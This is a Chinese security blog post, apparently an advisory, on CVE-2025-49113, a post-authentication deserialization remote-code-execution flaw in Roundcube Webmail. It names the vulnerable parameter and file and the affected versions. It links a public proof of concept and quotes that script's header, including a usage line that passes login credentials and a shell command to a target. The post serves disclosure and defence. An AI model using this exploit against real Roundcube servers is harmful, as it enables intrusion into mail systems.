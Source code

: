 #  CVE-2025-49113｜Roundcube Webmail反序列化漏洞（POC）  
alicy  信安百科   2025-06-07 10:50  
  
**0x00 前言**  
  
  
Roundcube Webmail是一个开源的基于web的电子邮件客户端，旨在提供用户友好的界面和强大的功能，使用户能够通过web浏览器方便地访问和管理他们的电子邮件。  
  
  
Roundcube支持标准的邮件协议（如IMAP和SMTP），并提供了许多常见的邮件功能，如收发邮件、管理联系人、创建日历事件等。其界面简洁直观，易于使用，同时还支持插件扩展，用户可以根据自己的需求定制功能。  
  
  
Roundcube Webmail被广泛应用于个人用户、企业和组织，为他们提供了一个方便、安全的电子邮件管理解决方案。  
  
  
  
**0x01 漏洞描述**  
  
  
在program/actions/settings/upload.php文件中没有对 _from参数进行验证，导致允许  
经过身份验证的用户  
触发反序列化，执行远程代码。  
  
  
  
**0x02 CVE编号**  
  
  
CVE-2025-49113  
  
  
  
**0x03 影响版本**  
  
  
Roundcube Webmail <1.5.10  
  
1.6.0<= Roundcube Webmail <1.6.11  
  
  
  
**0x04 漏洞详情**  
  
  
POC：  
  
https://github.com/fearsoff-org/CVE-2025-49113  
```
<?php

/**
 * Roundcube ≤ 1.6.10 Post-Auth RCE via PHP Object Deserialization [CVE-2025-49113]
 *
 * Universal PoC for any PHP version
 * 
 * Author: Kirill Firsov https://x.com/k_firsov
 * Organization: FearsOff Cybersecurity (https://fearsoff.org)
 * Writeup: https://fearsoff.org/research/roundcube
 *
 * 
 * Main execution flow.
 * php CVE-2025-49113.php http://roundcube.local username password "touch /tmp/pwned"
 *
 * 
 * Disclaimer:
 *   This proof-of-concept code is provided for educational and research purposes only.
 *   The author and contributors assume no responsibility for any misuse or damage
 *   resulting from the use of this code. Unauthorized use on systems you do not own
 *   or have explicit permission to test is illegal and strictly prohibited. Use at your own risk.
 *
 * @param array<string> $argv
 * @return void
 */
function main(array $argv): void
```